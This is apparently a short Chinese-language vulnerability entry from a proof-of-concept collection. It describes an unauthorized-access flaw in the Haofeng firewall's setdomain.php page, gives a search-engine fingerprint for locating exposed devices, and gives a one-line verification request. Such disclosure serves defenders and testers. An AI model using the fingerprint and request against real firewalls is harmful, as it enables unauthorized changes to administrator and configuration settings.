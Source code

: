 # 

# 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

```
皓峰防火墙
```

## 网络测绘

```
app="皓峰防火墙系统登录"
```

## 漏洞复现

登录页面

![img](./images/202202110917093.png)

验证POC

```php
/setdomain.php?action=list
```

![img](./images/202202110916092.png)
